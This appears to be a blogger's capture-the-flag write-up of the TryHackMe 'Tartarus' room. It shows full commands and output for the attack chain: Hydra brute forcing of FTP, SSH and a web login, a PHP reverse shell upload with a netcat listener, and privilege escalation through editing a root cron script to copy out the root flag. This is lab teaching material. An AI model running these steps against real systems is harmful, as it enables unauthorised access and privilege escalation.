



<a href="https://tryhackme.com/room/tartaraus"></a>

# tartarus CTF

## nmap
A new room for beginners, of which I am one.... created by [csenox](https://tryhackme.com/p/csenox)
<br>
Lets start with basic enumeration:
```
:~/CTF/tryhackme/tartarus$ nmap -A -sC -sV 10.10.77.135
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-15 14:44 BST
Nmap scan report for 10.10.77.135
Host is up (0.019s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.12.213
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 98:6c:7f:49:db:54:cb:36:6d:d5:ff:75:42:4c:a7:e0 (RSA)
|   256 0c:7b:1a:9c:ed:4b:29:f5:3e:be:1c:9a:e4:4c:07:2c (ECDSA)
|_  256 50:09:9f:c0:67:3e:89:93:b0:c9:85:f1:93:89:50:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.46 seconds

```
As well as this, I also completed a -p- all ports check, which provided no further information. In the end this gives us, three ports, one: FTP (with anonymous access allowed), one: SSH, and finally one: HTTP. Let's now see what gobuster can provide us with.

## gobuster
```
~/CTF/tryhackme/tartarus$ gobuster dir -u 10.10.75.241 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.75.241
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/15 06:53:08 Starting gobuster
===============================================================
/server-status (Status: 403)
===============================================================
2020/08/15 07:00:24 Finished
===============================================================
```
Nothing highlighted directly with only the /server-status showing with us having no access.

## nikto
Let us see what can be picked up here.
```
~/CTF/tryhackme/tartarus$ nikto -h 10.10.75.241
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.75.241
+ Target Hostname:    10.10.75.241
+ Target Port:        80
+ Start Time:         2020-08-15 07:35:59 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Server may leak inodes via ETags, header found with file /, inode: 2c39, size: 5a9b87b015a4a, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
```
nikto has highlighted a robots .txt, so lets have a look.
```
User-Agent: *
Disallow : /--------

I told ------- we should hide our things deep.
```
From this we can possibly draw two conclusions, firstly, we have a username and secondly, we have a hidden directory. Lets look at the website as a whole, and in the meantime set off gobuster again on the new folder. No point in not checking, especially with the comment "hide our things deep"
```
gobuster dir -u 10.10.75.241 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
## website 
Lets quickly start at the front door and check out the HTTP website/page. One thing I have learnt over these last three months of CTF and learning pentesting is that you need to check everything!!
It looks like it is a default Apache Ubuntu holding page.  I read through it but find nothing that jumps out directly.
So what about the /-------?
This gives us two additional files:
```
Index of /-------
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[TXT]	-------.txt	2020-07-05 21:45 	760 	 
[ ]	-------	2020-07-05 21:45 	78 	 
Apache/2.4.18 (Ubuntu) Server at 10.10.75.241 Port 80
```
The userid file contains 13 user names
```
usernames
```
The credentials file contains a long list of approximately 100 passwords.
```
passwords
```
While we continue looking, I saved these files and used hydra to try and brute force the FTP and or SSH

## hydra
Using both files for user and passwords we will attempt to brute force access.
FTP first.
```
~/CTF/tryhackme/tartarus$ hydra -L users.txt -P passwords.txt ftp://10.10.75.241
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-15 08:19:14
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1313 login tries (l:13/p:101), ~83 tries per task
[DATA] attacking ftp://10.10.75.241:21/
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-15 08:19:31
```
Nothing here that matches. Now for SSH.
```
~/CTF/tryhackme/tartarus$ hydra -L users.txt -P passwords.txt 10.10.75.241 -t 4 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-15 08:03:40
[DATA] max 4 tasks per 1 server, overall 4 tasks, 1313 login tries (l:13/p:101), ~329 tries per task
[DATA] attacking ssh://10.10.75.241:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 1269 to do in 00:29h, 4 active
[STATUS] 34.67 tries/min, 104 tries in 00:03h, 1209 to do in 00:35h, 4 active
[STATUS] 32.29 tries/min, 226 tries in 00:07h, 1087 to do in 00:34h, 4 active
[STATUS] 31.00 tries/min, 372 tries in 00:12h, 941 to do in 00:31h, 4 active
[STATUS] 32.00 tries/min, 544 tries in 00:17h, 769 to do in 00:25h, 4 active
[STATUS] 31.36 tries/min, 690 tries in 00:22h, 623 to do in 00:20h, 4 active
[STATUS] 31.04 tries/min, 838 tries in 00:27h, 475 to do in 00:16h, 4 active
[STATUS] 31.03 tries/min, 993 tries in 00:32h, 320 to do in 00:11h, 4 active
[STATUS] 31.08 tries/min, 1150 tries in 00:37h, 163 to do in 00:06h, 4 active
[STATUS] 30.86 tries/min, 1296 tries in 00:42h, 17 to do in 00:01h, 4 active
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-15 08:46:35
```
Again nothing. I even tried, as we have a limited number of usernames and passwords, to reverse the lists and check that way. Still nothing.

## ftp
Let's look at the first port and see where it takes us. First logon with anonymous.
```
~/CTF/tryhackme/tartarus$ ftp 10.10.218.247
Connected to 10.10.218.247.
220 (vsFTPd 3.0.3)
Name (10.10.218.247:): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ...
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
226 Directory send OK.
ftp> get test.txt 
local: test.txt remote: test.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for test.txt (17 bytes).
226 Transfer complete.
17 bytes received in 0.01 secs (2.2335 kB/s)
```
So we have a file, lets see if there is anything else in the other directories.
```
ftp> cd .
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
226 Directory send OK.
ftp> cd ..
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> passive
Passive mode on.
ftp> ls
227 Entering Passive Mode (10,10,218,247,161,159).
150 Here comes the directory listing.
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls
227 Entering Passive Mode (10,10,218,247,222,171).
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            14 Jul 05 21:45 --------------.txt
226 Directory send OK.
ftp> get ------------.txt 
local: -----------.txt remote: --------------.txt
227 Entering Passive Mode (10,10,218,247,88,108).
150 Opening BINARY mode data connection for -------------.txt (14 bytes).
226 Transfer complete.
14 bytes received in 0.00 secs (41.4299 kB/s)
ftp> exit
221 Goodbye.

```
Another file found. A quick check on the first test file highlighted some text.
```
~/CTF/tryhackme/tartarus$ cat test.txt 
vsftpd test file
```
The second file is more forthcoming.
```
~/CTF/tryhackme/tartarus$ cat yougotgoodeyes.txt 
/---------
```
Now we have what looks like a new folder and as we see gives us a login form.
<br>

<br>
So we have a login form with a set of usernames and passwords. Lets use hydra again and see what we come up with. In the meantime, I ran a gobuster script for the hidden folder:
```
~/CTF/tryhackme/tartarus$ gobuster dir -u 10.10.218.247/------------ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.218.247/------------
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,html,php
[+] Timeout:        10s
===============================================================
2020/08/15 11:01:58 Starting gobuster
===============================================================
/index.html (Status: 200)
/images (Status: 301)
/home.php (Status: 302)
/authenticate.php (Status: 200)
===============================================================
2020/08/15 11:31:40 Finished
===============================================================
```
OK so some more folders and also the authentication.php that we were aware of.
```
~/CTF/tryhackme/tartarus$ hydra -L users.txt -P passwords.txt 10.10.218.247 http-post-form "/------------/authenticate.php:username=^USER^&password=^PASS^:F=Incorrect*"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-15 11:41:02
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1313 login tries (l:13/p:101), ~83 tries per task
[DATA] attacking http-post-form://10.10.218.247:80/------------/authenticate.php:username=^USER^&password=^PASS^:F=Incorrect*
[80][http-post-form] host: 10.10.218.247   login: ----   password: ------------

```
Two things that I had issues with here. I tend to copy and paste from my notes using Zim Wiki and so I added the hidden folder at the end of the ip address rather in the form area, but also the initial results I got still gave me wrong passwords (right user) so I just used an asterix to indicate all as in either password and or username.

## login
Lets see what they can allow us to do.
Looks like we can add some files. Lets see if it will allow a php reverse shell exploit. (I use the one from pentestmonkey)
<br>

<br>
Now we have successfully uploaded it and gobuster has now given us the images folder, we get some more information. When we view the folder called uploads and we can see two things.
<br>

<br>
I then set up a local netcat session on port 4567 and then clicked the exploit.php. This now opens a shell on the target host.
```
karti@kali-pt:~/CTF/tryhackme/tartarus$ nc -lnvp 4567
listening on [any] 4567 ...
connect to [10.9.12.213] from (UNKNOWN) [10.10.218.247] 50460
Linux ubuntu-xenial 4.4.0-184-generic #214-Ubuntu SMP Thu Jun 4 10:14:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:51:19 up  1:56,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
I then open up a proper shell.
```
python -c "import pty; pty.spawn('/bin/bash')"
```
Lets look around and see what we can get.
```
www-data@ubuntu-xenial:/$ ls
ls
bin   home	      lib64	  opt	sbin  tmp      vmlinuz
boot  initrd.img      lost+found  proc	snap  usr      vmlinuz.old
dev   initrd.img.old  media	  root	srv   vagrant
etc   lib	      mnt	  run	sys   var
www-data@ubuntu-xenial:/$ cd /home
cd /home
www-data@ubuntu-xenial:/home$ ls
ls
c-----p  d----h  t-------o
www-data@ubuntu-xenial:/home$ cd ------	
cd ------
www-data@ubuntu-xenial:/home/------$ ls
ls
cleanup.py  user.txt
www-data@ubuntu-xenial:/home/d4rckh$ cat user.txt
cat user.txt
<insert user flag here>
```
That is the user flag sorted. What about the admin?

Lets look around still:

```
www-data@ubuntu-xenial:/home$ ls -lAh
ls -lAh
total 12K
drwxr-xr-x 2 root      root      4.0K Jul  5 21:35 -------
drwxr-xr-x 2 ------    ------    4.0K Jul  5 21:35 ------
drwxr-xr-x 2 --------- --------- 4.0K Jul  5 21:38 --------
www-data@ubuntu-xenial:/home$ ls -lAh *
ls -lAh *
-------:
total 0

------:
total 8.0K
-rwxrwxrwx 1 root   root   129 Jul  5 21:45 cleanup.py
-rw-r--r-- 1 d4rckh d4rckh  33 Jul  5 21:45 user.txt

---------:
total 8.0K
-rw------- 1 1002 1002  56 Jul  5 21:39 .bash_history
-rwxr-xr-x 1 root root 143 Jul  5 21:45 note.txt

www-data@ubuntu-xenial:/home$ cd thirtytwo
cd ---------
www-data@ubuntu-xenial:/home/thirtytwo$ ls
ls
note.txt
www-data@ubuntu-xenial:/home/thirtytwo$ cat note.txt
cat note.txt
Hey 32, the other day you were unable to clone my github repository. 
Now you can use git. Took a while to fix it but now its good :)

~------
```
OK we have another text file and what appears to be a python script:
```
www-data@ubuntu-xenial:/home/-----$ cat cleanup.py 
# -*- coding: utf-8 -*-
#!/usr/bin/env python
import os
import sys
try:
	os.system('rm -r /home/cleanup/* ')
except:
	sys.exit()
```
Does this run automatically or when selected. If I can I tend to view crontab earlier than later as it at least gives me an idea of anything that is running.
```
www-data@ubuntu-xenial:/home/------$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/2 *   * * *   root    python /home/------/cleanup.py
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
So we see that this file is running frequently and as root. If we look at out current permissions on the file, we can read, write and execute. So we could actually change the command on the inside? Before that lets check out what we can actually do with a sudo -l
```
www-data@ubuntu-xenial:/home/------$ sudo -l
Matching Defaults entries for www-data on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu-xenial:
    (------) NOPASSWD: /var/www/gdb
```
Right, so we can as --------- run Gnome De-Bugging. My next port of call will be the [GTFOBINS](https://gtfobins.github.io/) to check out gdb and what it can do for us. However, I keep being drawn back to the file I should be able to amend as www-data.

Using vim, nano wasn't available, I amended the file to get the root flag, from where I expected it to be - /root/root.txt
```
www-data@ubuntu-xenial:/home/d4rckh$ vim cleanup.py 

# -*- coding: utf-8 -*-
#!/usr/bin/env python
import os
import sys
try:
        os.system('cat /root/root.txt > /tmp/root.txt')
except:
        sys.exit()
~                                                                               
~                      
```
After a few moments, I changed to /tmp and found the file I needed.
```
www-data@ubuntu-xenial:/home/------$ cd /tmp/
www-data@ubuntu-xenial:/tmp$ ls
root.txt
www-data@ubuntu-xenial:/tmp$ cat root.txt 
<insert root flag here>
www-data@ubuntu-xenial:/tmp$ 
```
Now to be honest, I really liked this room. I spend a good few hours going down different avenues. The image file that had a dBase III DBT file within it, I couldn't view. The trials and tribulations of moving between users by following GTFObins gdb commands, was all part of lifes rich tapestry!!.

When I am a bit more confident in these other tools, I will definately come back and find new ways to beat it. 

Thanks csenox :)

K

<script src="https://tryhackme.com/badge/65208"></script>
